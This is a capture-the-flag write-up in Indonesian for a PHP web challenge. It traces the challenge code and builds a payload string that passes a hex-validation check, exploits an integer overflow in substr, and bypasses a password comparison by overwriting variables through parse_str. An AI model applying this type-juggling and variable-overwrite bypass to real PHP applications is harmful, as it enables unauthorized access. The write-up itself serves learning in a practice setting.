 ## PHP Compare (Web Exploitation)

### Proof of Concept
- Download source code 
```
http://chall.ctfs.me:8002/compare-us/
```
- Step by Step
	- Server meminta inputan $_GET['key'] dan akan divalidasi oleh **ctype_xdigit** terlebih dahulu, jadi inputan harus mencakup bilangan hexa antara 1-9 dan A-F. [View code](compare.php#L6-L7)
	- Sekarang kita coba untuk *tracing* dari kode berikut ini. [View code](compare.php#L8-L9) 
	```php
	$A = "43544653"; // CTFS
	$e = implode('', array_map(function ($i, $A) {
	        return chr(hexdec($A{$i + $i} . $A{$i + ($i + 1)}));
	    }, list($m, $n, $o) = range(0, 2), array($A, $A, $A))
	);
	print "{$A} => {$e}" . PHP_EOL; // 43544653 => CTF
	``` 
	Output yang dikeluarkan hanya 3digit, karna dari callback ```array_map``` hanya meminta 3 array ```array($A, $A, $A)```, jadi inti dari kode diatas iyalah mengkonversi hexa to string dan mengeluarkan output max 3digit string, di line 9 terdapat pengecekan ```$e < 1 && $e > 0 && $e !== 0``` jadi kita dapat mengambil **0.5** antara 0 sampai 1.

	- Next dari *tracing* kode diatas kita mendapatkan ```$A = "302e35";``` lanjut ke pengecekan kode selanjutnya pada line 10. [View code](compare.php#L10) Pada pengecekan selanjutnya iyalah ```substr``` dan output yang dihasilkan harus kurang dari **-1** 

	```php
	$A = "302e359999999999999999999999999999999";
	$e = implode('', array_map(function ($i, $A) {
	        return chr(hexdec($A{$i + $i} . $A{$i + ($i + 1)}));
	    }, list($m, $n, $o) = range(0, 2), array($A, $A, $A))
	);
	print ((int) (substr($A, strlen($e) * 2) + 0)) . PHP_EOL; // -4571153621781053440
	```

	- Ternyata masih ada lagi pengecekan ```($check == $_GET['password'])``` karna sebelumnya ada ```parse_str($_SERVER['QUERY_STRING']);``` jadi kita dapat membypass dengan menambahkan ```check=0&password=0``` pada parameter url.

- Capture the flag :triangular_flag_on_post:
```
Payload : key=302e359999999999999999999999999999999&check=0&password=0
```